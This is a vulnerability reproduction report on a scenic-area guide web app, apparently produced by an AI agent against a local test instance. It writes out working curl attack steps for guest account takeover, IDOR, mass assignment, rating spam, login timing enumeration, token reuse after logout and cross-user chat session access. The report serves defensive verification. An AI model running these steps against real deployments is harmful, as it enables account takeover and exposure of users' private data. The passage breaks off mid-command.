






# 景区导览系统漏洞运行复现报告

- 仓库：https://github.com/4evour/Scenic_spot_guide_system
- 基准提交：`master@7547920`
- 复现日期：2026-09-27（UTC）
- 复现环境：Cursor Cloud VM，Go 1.25.0，Node 22，SQLite（本地 API），Redis 仅 S-8，Docker Compose 仅 S-10 / E-7
- 约束遵守：未 `git push`、未开 PR、未在远端建分支、未改仓库已跟踪文件；临时脚本与 mock 仅在 `/tmp/scenic-repro/`；LLM 使用本机 `127.0.0.1:18080` / `:18081` OpenAI 兼容 mock；未读取或测试 `scripts/cleanup-git-history.sh` 中的明文密钥
- 条目范围：S-2～S-10、S-12～S-15、F-1～F-10、E-7（共 24 条）

## 汇总

| 结论 | 条数 | 编号 |
|---|---|---|
| 已复现 | 14 | S-2、S-6、S-8、S-9、S-12、S-13、S-14、S-15、F-2、F-3、F-4、F-8、F-9、F-10 |
| 部分复现 | 10 | S-3、S-4、S-5、S-7、S-10、F-1、F-5、F-6、F-7、E-7 |
| 未复现 | 0 | — |
| 无法复现 | 0 | — |

新发现（报告未列或与报告路径/现象不符）：N-1～N-6，见文末。

---

## 环境事实（对照附录 R0）

本地 SQLite 进程（多数条目）：

```bash
cp configs/config.example.yaml configs/config.yaml   # 仅 VM 本地，已被 gitignore
export SCENIC_GUIDE_SECURITY_JWT_SECRET='<32+ hex, VM 本地随机>'
export SCENIC_GUIDE_ADMIN_USERNAME=admin
export ADMIN_PW='AdminPass123'
export SCENIC_GUIDE_ADMIN_PASSWORD='AdminPass123'
export SCENIC_GUIDE_REDIS_ADDR=127.0.0.1:1
export SCENIC_GUIDE_LOGGING_LEVEL=debug
export SCENIC_GUIDE_AI_API_KEY='mock-local-key'
export SCENIC_GUIDE_AI_BASE_URL='http://127.0.0.1:18080/v1'
export SCENIC_GUIDE_AI_MODEL='mock-qwen'
# F-6 单独把 BASE_URL 指到 :18081（STREAM_DELAY=8）
python3 /tmp/scenic-repro/mock_llm.py          # :18080
python3 /tmp/scenic-repro/mock_llm.py --slow   # :18081
go run . > /tmp/scenic-repro/server.log 2>&1
```

启动日志（本地 SQLite 成功）：

```
time=2026-09-27T14:33:52.900Z level=INFO msg=启动景区导览服务 log_level=debug
time=2026-09-27T14:33:54.606Z level=INFO msg=数据库连接成功 driver=sqlite
[GIN-debug] [WARNING] Running in "debug" mode. Switch to "release" mode in production.
```

`/health` 在本地进程存活期间返回 200。后续 `docker compose up` 占用 8080 后，本地进程被替换为 compose 实例（见 E-7）。

---

## S-2 游客指纹接管 / 串号

**结论：已复现**

**命令：**

```bash
B=http://127.0.0.1:8080
FP=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
curl -sS -c /tmp/scenic-repro/out/s2-a.txt -H 'Content-Type: application/json' \
  -d "{\"device_fingerprint\":\"$FP\"}" $B/api/v1/auth/guest-login
CSRF_A=$(awk '$6=="csrf_token"{print $7}' /tmp/scenic-repro/out/s2-a.txt)
curl -sS -b /tmp/scenic-repro/out/s2-a.txt -H "X-CSRF-Token: $CSRF_A" -H 'Content-Type: application/json' \
  -d '{"role":"user","content":"我叫张三，手机号13800000000，住在灵山酒店301"}' \
  $B/api/v1/sessions/sess-A-001/messages
curl -sS -c /tmp/scenic-repro/out/s2-b.txt -H 'Content-Type: application/json' \
  -d "{\"device_fingerprint\":\"$FP\"}" $B/api/v1/auth/guest-login
curl -sS -b /tmp/scenic-repro/out/s2-b.txt $B/api/v1/sessions
curl -sS -b /tmp/scenic-repro/out/s2-b.txt "$B/api/v1/sessions/sess-A-001/messages"
```

**实际输出：**

- A 登录：`{"code":0,...,"data":{"display_name":"游客2959","id":2,"role":"guest","username":"guest_2959905a"}}`
- B 登录：相同 `id:2` / `username:guest_2959905a`
- B 列会话：包含 `sess-A-001`，title 为 A 写入的隐私句
- B 读消息：`content":"我叫张三，手机号13800000000，住在灵山酒店301"`

**与报告差异：** 无。与静态预期一致。

---

## S-3 TTS 无鉴权、无限流、无长度限制

**结论：部分复现**

**命令：**

```bash
# 完全无 Cookie
curl -sS -D /tmp/scenic-repro/out/s3-nocookie.hdr -o /tmp/scenic-repro/out/s3-nocookie.body \
  -w 's3_nocookie http=%{http_code}\n' \
  -H 'Content-Type: application/json' -d '{"text":"测试"}' $B/api/v1/ai/tts
# guest-login 后长大文本（约 1.2MB）
python3 -c "import json;print(json.dumps({'text':'灵山大佛'*50000}))" > /tmp/scenic-repro/out/s3-big.json
time curl -sS -b s3.txt -H "X-CSRF-Token: $CS3" -H 'Content-Type: application/json' \
  --data @/tmp/scenic-repro/out/s3-big.json --max-time 45 $B/api/v1/ai/tts
# 短文本并发 20
for i in $(seq 1 20); do
  curl -sS -o /dev/null -w '%{http_code}\n' -b s3.txt -H "X-CSRF-Token: $CS3" \
    -H 'Content-Type: application/json' -d '{"text":"测试"}' --max-time 20 $B/api/v1/ai/tts &
done; wait
```

**实际输出：**

- 无 Cookie：`HTTP/1.1 403`，`{"code":403,"message":"missing csrf token"}`
- 长文本：`http=500`，`{"code":500,"message":"语音合成失败"}`，耗时 `30.011303` 秒（服务端 30s 超时）
- 短文本并发：20 个全部 `200`，无 `429`
- 长文本请求体 `1200013` 字节被受理（没有 400 长度拒绝）

**与报告差异：**

1. 完全未登录不是“接口敞开”，CSRF 会 403；guest-login 后即可调用（报告正文也提到这一点）。
2. 长文本没有返回 200 MP3，而是 30s 后 500。短文本 20/20 成功，说明 **Edge TTS 外网对短文本可达**，长文本被超时截断。
3. 并发测的是 20 路而不是报告写的 50 路（避免打满 VM）；20 路已足够证明无限流。

---

## S-4 chat 消息长度无上限

**结论：部分复现**

**命令：**

```bash
# 报告原步骤：40000 次重复，约 1.92MB
python3 -c "import json;print(json.dumps({'message':'介绍一下灵山大佛'*40000,'session_id':'x1'}))" > /tmp/scenic-repro/out/s4-long.json
curl -sS -b j.txt -H "X-CSRF-Token: $CSRF" -H 'Content-Type: application/json' \
  --data @/tmp/scenic-repro/out/s4-long.json $B/api/v1/ai/chat
# 1MB 以内：20000 次重复，约 960KB
python3 -c "import json;print(json.dumps({'message':'介绍一下灵山大佛'*20000,'session_id':'s4-under1mb'}))" \
  > /tmp/scenic-repro/out/s4b-long.json
curl -sS -b s4b.txt -H "X-CSRF-Token: $CS4" -H 'Content-Type: application/json' \
  --data @/tmp/scenic-repro/out/s4b-long.json --max-time 90 $B/api/v1/ai/chat
```

**实际输出：**

- 1.92MB 体：`http=400`，`{"code":400,"message":"参数错误"}`（触发 `MaxBytesReader` 1MB）
- 960045 字节体：`code:0`，mock 回答含 `prompt_chars=165226`

**与报告差异：** 报告示例 `*40000` 会先撞上 1MB 体上限，不会进入 `message_len=320000` 日志。1MB 以内确实**没有 rune 上限**，超长 prompt 被发给 mock LLM。核心“无字数校验、可放大成本”成立，但报告给出的具体 payload 过大。

---

## S-5 游客无限创建

**结论：部分复现**

**命令：**

```bash
for i in $(seq 1 12); do
  curl -sS -H 'Content-Type: application/json' \
    -d "{\"device_fingerprint\":\"fp-repro-$i-$RANDOM\"}" \
    $B/api/v1/auth/guest-login
done
sqlite3 /workspace/data/scenic_guide.db "select count(*) from users where role='guest';"
```

**实际输出（`s5-ids.txt` / `s5-codes.txt`）：**

```
424249 0 success
...
424255 0 success          # 共 7 个新 id
None 429 too many requests
...                       # 随后 5 次 429
```

`users.role='guest'` 计数最终为 `17`（含本任务更早的 guest）。

**与报告差异：** 报告写“10 个递增 id，第 11 次 429”。本分钟内此前已有 guest-login（S-2/S-3 等），内存限流 10 次/分钟已被部分消耗，故只新建 7 个就 429。限流存在、可刷号、无清理机制这些点成立。

---

## S-6 评分刷分 / 不存在的 spot

**结论：已复现**

**命令：**

```bash
for i in $(seq 1 100); do
  curl -sS -o /dev/null -w '%{http_code}\n' -b s3.txt -H "X-CSRF-Token: $CS3" \
    -H 'Content-Type: application/json' \
    -d "{\"session_id\":\"fake-$i\",\"spot_id\":1,\"overall_rating\":1,\"comment\":\"差评\"}" \
    $B/api/v1/visitor/ratings
done
curl -sS $B/api/v1/visitor/spots/1/ratings/stats
curl -sS -b s3.txt -H "X-CSRF-Token: $CS3" -H 'Content-Type: application/json' \
  -d '{"session_id":"x","spot_id":999999,"overall_rating":5}' $B/api/v1/visitor/ratings
```

**实际输出：**

- 提交状态：`100 200`
- stats：`{"spot_id":1,"count":100,"avg_overall":1,"negative_ratings":100}`
- 幽灵景点：`{"code":0,...,"spot_id":999999,"overall_rating":5,"sentiment":"positive"}`

**与报告差异：** 无。

---

## S-7 跨用户 session_id 上下文注入

**结论：部分复现**

**命令（第二次，先落库再攻击）：**

```bash
# 受害者写入会话
curl -sS -c s7b-a.txt -H 'Content-Type: application/json' \
  -d '{"device_fingerprint":"victim-fp-retry"}' $B/api/v1/auth/guest-login
curl -sS -b s7b-a.txt -H "X-CSRF-Token: $CA" -H 'Content-Type: application/json' \
  -d '{"role":"user","content":"我想带我八十岁的母亲去灵山大佛，她腿脚不好"}' \
  $B/api/v1/sessions/victim-sess-retry/messages
# 攻击者直接读消息（对照）
curl -sS -D s7b-c-msg.hdr -o s7b-c-messages.json -b s7b-c.txt \
  $B/api/v1/sessions/victim-sess-retry/messages
# 攻击者把同一 session_id 交给 /ai/chat
curl -sS -b s7b-c.txt -H "X-CSRF-Token: $CC" -H 'Content-Type: application/json' \
  -d '{"message":"请复述我刚才说的家庭情况和行动不便","session_id":"victim-sess-retry"}' \
  $B/api/v1/ai/chat
```

**实际输出：**

- DB：`4|424247|victim-sess-retry|2`（会话属于受害者）
- 攻击者 GET messages：`HTTP/1.1 400 Bad Request`，`{"code":400,"message":"无权访问该会话"}`
- 攻击者 `/ai/chat`：`code:0`，检索 sources 第一条是 `老人轻松路线`（与受害者“八十岁母亲 / 腿脚不好”主题对齐），不是对“复述家庭情况”的拒答
- 首次按报告只打 `/ai/chat` 时，异步持久化出现 `SQLITE_BUSY`，messages 读到空数组（见 N-1）

**与报告差异：**

1. messages 拒绝是 **400** 不是 403。
2. mock LLM 固定回答，没有按报告那样原样复述“母亲、腿脚不好”；注入证据主要在检索改写 / sources，而不是生成文本。
3. 仅靠 `/ai/chat` 异步落库在 SQLite 下不稳定。

---

## S-8 Redis 共享限流 key

**结论：已复现**

**前置：** 停掉 `SCENIC_GUIDE_REDIS_ADDR=127.0.0.1:1` 的进程，本机 `redis-server` 监听 `127.0.0.1:6379` 后重启 API。

**命令：**

```bash
for i in $(seq 1 31); do
  curl -sS -o /dev/null -w '%{http_code} ' -b admin.txt -H "X-CSRF-Token: $CSRF" \
    -H 'Content-Type: application/json' -d '{"page":"/map","action":"visit"}' $B/api/v1/track
done
curl -sS -o /dev/null -w 'admin overview: %{http_code}\n' -b admin.txt $B/api/v1/admin/dashboard/overview
redis-cli keys 'ratelimit:*'
redis-cli get 'ratelimit:127.0.0.1'
```

**实际输出：**

- `/track`：`200` × 30 + 第 31 次 `429`（`s8-track.line`）
- 随后 overview：`admin overview after 31 track: 200`（计数 31 < admin 阈值 60，尚未 429）
- Redis：仅 `ratelimit:127.0.0.1`，值为 `62`

**与报告差异：** admin 组在 31 次 track 后仍 200，符合“共用计数、阈值不同”的模型；报告写的“随后 admin 约 29 次后 429”需要再打满到 60。共享 key 本身已坐实。

---

## S-9 logout 后旧 Bearer 仍可用

**结论：已复现**

**命令：**

```bash
curl -sS -c u.txt -H 'Content-Type: application/json' \
  -d "{\"username\":\"admin\",\"password\":\"$ADMIN_PW\"}" $B/api/v1/login
TOKEN=$(awk '$6=="auth_token" || $6=="#HttpOnly_auth_token"{print $7}' u.txt)
CSRF=$(awk '$6=="csrf_token"{print $7}' u.txt)
curl -sS -b u.txt -X POST -H "X-CSRF-Token: $CSRF" $B/api/v1/logout
curl -sS -H "Authorization: Bearer $TOKEN" $B/api/v1/user/me
curl -sS -H "Authorization: Bearer $TOKEN" $B/api/v1/admin/users
```

**实际输出：**

- logout：`{"code":0,"message":"已退出登录"}`
- `/user/me`：`s9_me http=200`，`{"id":1,"role":"admin","username":"admin"}`
- `/admin/users`：`s9_users http=200`，返回用户列表

**与报告差异：** Netscape cookie 罐里 `auth_token` 带 `#HttpOnly_` 前缀，报告里的 `awk '$6=="auth_token"` 会取空。用 `#HttpOnly_auth_token` 才能拿到 token。漏洞本身成立。

---

## S-10 compose 的 debug / 无 Secure / 正式域名 Origin 403

**结论：部分复现**

**命令：**

```bash
# 本地进程（compose 起来之前）
curl -sS -D /tmp/scenic-repro/out/s10-cookie.hdr -o /dev/null \
  -H 'Content-Type: application/json' -d '{}' $B/api/v1/auth/guest-login
grep -i set-cookie /tmp/scenic-repro/out/s10-cookie.hdr
curl -sS -o /dev/null -w '%{http_code}\n' -D /tmp/scenic-repro/out/s10-origin.hdr \
  -H 'Origin: https://guide.example.com' -H 'Content-Type: application/json' \
  -d '{"username":"a","password":"b"}' $B/api/v1/login
# compose
export SCENIC_GUIDE_DATABASE_PASSWORD=... SCENIC_GUIDE_SECURITY_JWT_SECRET=...
docker compose up -d --build
docker compose logs scenic-guide | grep -m3 GIN-debug
```

**实际输出（本地进程）：**

- 启动日志：`[GIN-debug] [WARNING] Running in "debug" mode.`
- `Set-Cookie: auth_token=...; Path=/; Max-Age=86400; HttpOnly; SameSite=Strict`（**无 Secure**）
- `Origin: https://guide.example.com` → `HTTP/1.1 403 Forbidden`，`Content-Length: 0`
- `docker-compose.yml` / `Dockerfile` 均未设置 `GIN_MODE=release` 或 `SCENIC_GUIDE_COOKIE_SECURE`

**与报告差异：** compose 实例因 E-7 在 `InitDatabase` 超时后退出，**未能对 compose 监听端口再打一遍 HTTP**。配置层与本地进程行为已验证；compose 上的 GIN-debug / Set-Cookie 运行时证据缺失。

---

## S-12 VisitorQuery IDOR + 批量赋值

**结论：已复现**

**命令：** 与报告一致（g1 创建带 `response`/`is_answered`，g2 枚举 `/queries/1..3`）。

**实际输出：**

- 创建：`{"id":1,"query":"我的身份证丢在梵宫了，号码是3201...","response":"已处理（伪造）","is_answered":true}`
- g2 读 id=1：同样内容，`code:0`
- id=2 / 3：`{"code":404,"message":"游客问题不存在"}`（库里当时只有 1 条）

**与报告差异：** 无实质性差异。

---

## S-13 注册批量赋值

**结论：已复现**

**命令：**

```bash
curl -sS -c /tmp/scenic-repro/out/s13.txt -H 'Content-Type: application/json' \
  -d '{"username":"fakeadmin01","password":"Passw0rd123","display_name":"景区官方管理员","created_at":"2000-01-01T00:00:00Z","id":424242}' \
  $B/api/v1/register
sqlite3 /workspace/data/scenic_guide.db \
  "select id,username,display_name,created_at,role from users where username='fakeadmin01';"
```

**实际输出：**

- HTTP：`{"code":0,"message":"注册成功"}`
- DB：`424242|fakeadmin01|景区官方管理员|2000-01-01 00:00:00 +0000 UTC|visitor`

**与报告差异：** 无。`role` 仍被强制为 visitor，不能提权。

---

## S-14 登录时序差

**结论：已复现**

**命令：** 与报告一致（`admin` / `notexist_zzz` 各 5 次错误密码）。

**实际输出（`s14-times.txt`）：**

```
admin 0.059447 401
admin 0.079834 401
admin 0.063775 401
admin 0.068562 401
admin 0.067129 401
notexist_zzz 0.000499 401
notexist_zzz 0.000446 401
notexist_zzz 0.001733 401
notexist_zzz 0.000443 401
notexist_zzz 0.000314 429
```

admin 均值约 **67ms**，不存在用户约 **0.7ms**，差异稳定。最后一次不存在用户碰到登录限流 429。

**与报告差异：** 无（时序差成立；第 5 次 notexist 因同 IP 限额变成 429）。

---

## S-15 解码 CSRF JWT

**结论：已复现**

**命令：**

```bash
curl -sS -c j.txt -H 'Content-Type: application/json' -d '{}' $B/api/v1/auth/guest-login
awk '$6=="csrf_token"{print $7}' j.txt | cut -d. -f2 | base64 -d 2>/dev/null; echo
```

**实际输出：**

```json
{"user_id":0,"username":"csrf","role":"csrf","token_version":0,"exp":1790562862,"nbf":1790519662,"iat":1790519662}
```

**与报告差异：** 无。未尝试用该 token 冒充登录（报告也写不构成提权）。

---

## F-1 流式多轮上下文冻结

**结论：部分复现**

**命令：**

```bash
# VM 本地临时单测（未提交）
go test -count=1 -v ./internal/service -run TestF1StreamingHistoryFrozen
# HTTP 四轮 stream / nostream 对照（mock LLM）
```

**实际输出（单测，`/opt/cursor/artifacts/F-1-unit-test.txt`）：**

```
stream turn 1..4 hist=0   # AppendSessionTurnWithUser 不写内存
stream 第 4 问 rewritten="它几点开放？"   # 无历史，代词不展开
nostream turn 4 hist=4
--- PASS: TestF1StreamingHistoryFrozen
```

HTTP 流式第 4 问 mock 回答 `prompt_chars=2437`，sources 仍偏大佛主轴，**不能稳定证明“它”被改写成梵宫或大佛**（mock 只回显 prompt 头，追问改写日志不够直观）。

**与报告差异：** 内存 `sessionHistory` 冻结（流式 hist 恒为 0）已用单测坐实；报告推断的“第 4 问指向大佛而不是梵宫”在 HTTP + mock 下没有得到清晰文本对照。非流式 rewrite 也主要叠了“开放时间 / 官方公告”模板，并非明显“梵宫”。

---

## F-2 eval-stats 返回 available:false

**结论：已复现**

**命令：**

```bash
curl -sS -b admin.txt $B/api/v1/admin/knowledge/eval-stats
ls -la /workspace/docs/eval-results/
```

**实际输出：**

```json
{"code":0,"message":"success","data":{"available":false,"message":"暂无评估数据"}}
```

目录只有 `.gitkeep`、`judge-current-rag-comparison.json`、`judge-current-rag-local-generation-50.json`、`judge-current-rag-retrieval-50.json`，没有代码硬编码的 `lingshan-real-rag-eval-targeted-improvement.json`。

截图：

- 
- 

**与报告差异：** 管理后台没有独立的 “RAG 评估指标”页，知识库页也不展示该 JSON；API 行为与报告一致。

---

## F-3 未构建前端时 /digital-human 404

**结论：已复现**

**命令：**

```bash
# 构建前
curl -sS -D /tmp/scenic-repro/out/f3-digital-human.hdr \
  -o /tmp/scenic-repro/out/f3-digital-human.body $B/digital-human
# 构建后
cd /workspace/web-vue && npm ci && npm run build
curl -sS -o /dev/null -w '%{http_code}\n' $B/digital-human
```

**实际输出：**

- 构建前：`HTTP/1.1 404 Not Found`，正文 `404 page not found`
- 构建后：浏览器打开 `/digital-human` 为 Vue 数字人页（200）

截图：

- 
- 

**与报告差异：** 无。

---

## F-4 /vtuber-ws 拨号失败直接断开

**结论：已复现**

**命令：**

```bash
curl -i -N -b jar.txt -H 'Connection: Upgrade' -H 'Upgrade: websocket' \
  -H 'Sec-WebSocket-Version: 13' -H 'Sec-WebSocket-Key: dGhlIHNhbXBsZSBub25jZQ==' \
  http://127.0.0.1:8080/vtuber-ws/client-ws
```

**实际输出：**

- curl：`curl: (52) Empty reply from server`，`http=000`
- 服务端：`wsproxy: backend dial failed: dial tcp 127.0.0.1:12393: connect: connection refused`

**与报告差异：** 无。Open-LLM-VTuber 不在仓库 / compose 中，外网服务也未部署。

---

## F-5 旧静态首页聊天 403

**结论：部分复现**

**命令：**

```bash
curl -sS -b j.txt -H 'Content-Type: application/json' \
  -d '{"session_id":"home_1","input_text":"灵山大佛多高"}' \
